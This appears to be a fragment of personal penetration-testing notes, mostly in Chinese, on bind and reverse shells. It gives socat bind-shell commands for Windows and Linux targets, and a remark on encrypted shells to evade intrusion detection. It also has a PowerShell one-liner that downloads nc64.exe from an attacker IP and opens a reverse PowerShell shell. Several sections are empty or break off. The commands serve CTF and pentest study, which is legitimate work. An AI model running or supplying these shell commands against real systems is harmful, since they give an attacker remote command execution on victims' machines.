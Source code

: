 #### 绑定shell

**Windows目标：**  
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

> the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

**Linux目标：**  
`socat TCP-L:<PORT> EXEC:"bash -li"`

**攻击机连接：**  
`socat TCP:<TARGET-IP>:<TARGET-PORT> -`


### 进阶语法

#### 强大用途之一：完全稳定的Linux tty 反弹shell



#### 创建加密shell

除非有密钥否则无法被侦测——绕IDS。

即把基础语法命令行的 `TCP` 替换为 `OPENSSL`。

1. 关于证书（certificates）

首先，要在攻击机生成证书。







## Windows

### [[powershell#^95a867|传递nc64反连]] ^f2016a
```powershell
powershell -noprofile -Command "Invoke-WebRequest http://10.10.x.x/nc64.exe -OutFile C:\Users\Public\nc64.exe" & C:\Users\Public\nc64.exe 10.10.x.x 4444 -e powershell
```
- nc不行可以试试[ncat](https://github.com/andrew-d/static-binaries/tree/master/binaries/windows/x86)
- 切换用户：注意[[横向#RunasCs]]的妙用


## 交互式

通常反弹shell都是非交互式的——意味着无法使用交互式命令（如ssh，不会显示是否加入新的公钥）

![[Pasted image 20240414182935.png]]


### Upgrading TTY

> https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
#### python
